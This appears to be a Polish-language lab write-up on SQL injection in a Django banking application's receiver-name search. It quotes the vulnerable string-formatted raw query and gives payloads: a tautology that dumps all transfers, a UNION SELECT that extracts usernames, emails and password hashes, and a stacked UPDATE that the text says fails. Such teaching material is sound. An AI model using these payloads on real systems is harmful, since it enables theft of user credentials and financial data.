

# SQL-injection wykonywane przy 'Search by receiver name'

Ponieważ zapytanie jest wykonywane przy użyciu metody `.raw()`, możemy w odpowiedni sposób zmanipulować postać formuły wyszukiwania wstawianej do poniższego zapytania
```python
query = "SELECT * FROM bank_transfer
        JOIN auth_user ON bank_transfer.user_id=auth_user.id
        WHERE auth_user.username='{}'
        AND bank_transfer.rec_name='{}'"
        .format(request.user, request.GET.get('search'))
```
1. Aby otrzymac wszystkie przelewy z bazy
```sql
cokolwiek' OR '1'='1
```
2. Aby otrzymac dane uzytkownikow wykonujemy `UNION` dołączając tablicę `auth_user`, jednak żeby otrzymać wynik musimy metodą prób i błędów sprawdzić ile kolumn zwraca lewa część uni. Wtedy musimy dopasować ustawienie pól tak, żeby dane z bazy były w kolumnach, które są wykorzystywane w *Django template* aby zostały wyświetlone w tabeli historii.
```sql
2' UNION SELECT '1', '1', 'USD', email, '1', '1', '1', password, username, '1', '1', '1', '1', '1', '1','1','1' ,'1','1','1','1','1','1','1' FROM auth_user WHERE auth_user.id='1
```
Uzyskujemy w ten sposób login, email oraz dane o haśle dowolnego użytkownika, modyfikując ostatni argument zapytania. Gdyby dane były przechowywane w bazie bez hashowania, otzrymalibyśmy całe hasło użytkownika.


3. Nawet pomimo użycia funkcji `raw()` do komunikacji z bazą danych, Django oraz interfejs sqlite3 nie pozwolą na wykonanie więcej niż jednego zapytania na raz. Dlatego wysyłając do serwera fragment, wstawiany do zapytania `SELECT` nie jesteśmy w stanie modyfikować bazy. Przykładowy fragment, który mógłby zrealizować taką operację wygląda następująco:
```
2'; UPDATE bank_transfer.is_confirmed='True' WHERE bank_transfer.amount>'1
```
